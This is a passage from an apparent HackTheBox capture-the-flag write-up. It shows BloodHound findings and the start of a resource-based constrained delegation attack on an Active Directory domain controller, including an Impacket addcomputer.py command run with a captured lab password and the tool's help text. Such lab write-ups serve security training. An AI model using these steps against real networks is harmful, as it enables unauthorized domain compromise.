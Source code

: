 ```
INFO: Compressing output into 20240608032642_bloodhound.zip

```

I gave the [Docker version of BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose) a try here. It is still lacking some features, but I’ve been burned by it since, so I’m not sure I can recommend it yet.

Working from lorra199, they have *tons* of outbound control:

![image-20240608070117775](/img/image-20240608070117775.png)

The most interesting as an attacker is:

![image-20240608070711091](/img/image-20240608070711091.png)

As a member of the AD Recycle Bin group, Lorra199 has `GenericWrite` over the DC. This is the same path I showed on [Support](/2022/12/17/htb-support.html#shell-as-domainadmin).

### Exploit via RBCD

#### Background

One way to abuse `GenericWrite` on a computer object is to create a fake computer on the domain and then write onto the DC that the fake computer has the ability to delegate as the DC (with resource-based constrained delegation (RBCD)). Then I can request a ticket as the DC and act as the DC.

Bloodhound shows this if I click on the `GenericWrite` under “Linux Abuse”:

![image-20240608071229267](/img/image-20240608071229267.png)

#### Add Computer

I’ll add a computer using `addcomputer.py` from [Impacket](https://github.com/SecureAuthCorp/impacket). When I run it with the options given in the help above, it fails:

```

oxdf@hacky$ addcomputer.py -method LDAPS -computer-name '0xdf$' -computer-pass '0xdf0xdf123!' -dc-host 10.10.11.5 -domain-netbios freelancer.htb 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra
[-] socket ssl wrapping error: [Errno 104] Connection reset by peer

```

It’s having some kind of SSL issue. I’ll notice the method here is `LDAPS`. The help for `addcomputer.py` shows there are two options here:

```

oxdf@hacky$ addcomputer.py -h
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

usage: addcomputer.py [-h] [-domain-netbios NETBIOSNAME] [-computer-name COMPUTER-NAME$]
                      [-computer-pass password] [-no-add] [-delete] [-debug] [-method {SAMR,LDAPS}]
                      [-port {139,445,636}] [-baseDN DC=test,DC=local]
                      [-computer-group CN=Computers,DC=test,DC=local] [-hashes LMHASH:NTHASH]
                      [-no-pass] [-k] [-aesKey hex key] [-dc-host hostname] [-dc-ip ip]
                      [domain/]username[:password]

Adds a computer account to domain
...[snip]...
  -method {SAMR,LDAPS}  Method of adding the computer.SAMR works over SMB.LDAPS has some certificate
                        requirementsand isn't always available.
...[snip]...

```